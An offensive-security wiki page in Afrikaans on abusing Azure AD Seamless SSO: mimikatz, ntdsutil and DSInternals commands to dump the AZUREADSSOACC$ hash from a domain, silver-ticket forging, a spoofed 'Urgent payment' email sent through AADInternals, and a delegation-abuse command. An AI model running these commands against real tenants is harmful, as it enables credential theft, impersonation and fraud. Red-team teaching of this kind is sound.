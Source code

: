 # Az - Naadloos SSO

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Basiese Inligting

[Volgens die dokumentasie:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Naadloos Enkeltekenaanmelding (Azure AD Seamless SSO) teken gebruikers outomaties in wanneer hulle op hul korporatiewe toestelle is wat aan jou korporatiewe netwerk gekoppel is. Wanneer dit geaktiveer is, hoef gebruikers nie hul wagwoorde in te tik om by Azure AD aan te meld nie, en gewoonlik hoef hulle selfs nie hul gebruikersname in te tik nie. Hierdie funksie bied jou gebruikers maklike toegang tot jou wolkgebaseerde toepassings sonder om enige addisionele on-premises komponente te benodig.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Basies teken Azure AD Naadloos SSO gebruikers in wanneer hulle op 'n on-prem domein-gekoppelde rekenaar is.

Dit word ondersteun deur beide [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) en [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO gebruik **Kerberos** vir outentisering. Wanneer dit gekonfigureer is, skep Azure AD Connect 'n rekenaarrekening genaamd AZUREADSSOACC`$` in die on-prem AD. Die wagwoord van die `AZUREADSSOACC$`-rekening word **as plain-text na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos-kaartjies** word **geënkripteer** met die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te ontsluit.

**Azure AD** stel 'n **eindpunt** (https://autologon.microsoftazuread-sso.com) bloot wat Kerberos-kaartjies aanvaar. Die blaaier van 'n domein-gekoppelde masjien stuur die kaartjies na hierdie eindpunt vir SSO.

### On-prem -> wolk

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domein-admin die **hash van hierdie rekening** in gevaar bring en dit dan gebruik om silwer-kaartjies te skep om met **enige on-prem-gebruiker wat gesinkroniseer is** na Azure te verbind:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die has kan jy nou **silwer kaartjies genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Om die silwerkaart te gebruik, moet die volgende stappe uitgevoer word:

1. **Begin die Blaaier:** Mozilla Firefox moet geopen word.
2. **Konfigureer die Blaaier:**
- Navigeer na **`about:config`**.
- Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) in op die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
- Besoek 'n webtoepassing wat geïntegreer is met die organisasie se AAD-domein. 'n Algemene voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
- Voer die gebruikersnaam in by die aanmeldingskerm en laat die wagwoordveld leeg.
- Druk TAB of ENTER om voort te gaan.

{% hint style="success" %}
Dit omseil nie MFA as dit geaktiveer is nie.
{% endhint %}

#### ~~Skep van Kerberos-kaartjies vir slegs-wolkkliënte~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang het tot Azure AD Connect, kan hulle **SID vir enige wolk-gebruiker instel**. Op hierdie manier kan Kerberos-kaartjies ook vir slegs-wolkkliënte geskep word. Die enigste vereiste is dat die SID 'n korrekte [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Die verandering van SID van slegs-wolk-admin-gebruikers word nou **geblokkeer deur Microsoft**.\
Vir inligting, besoek [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wolk via Hulpbron-Gebaseerde Beperkte Delegasie <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enige persoon wat rekenaarrekeninge (`AZUREADSSOACC$`) in die houer of OU kan bestuur waarin hierdie rekening is, kan **'n hulpbron-gebaseerde beperkte delegasie oor die rekening instel en dit toegang**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ek is in jou wolk, lees almal se e-posse - hack Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
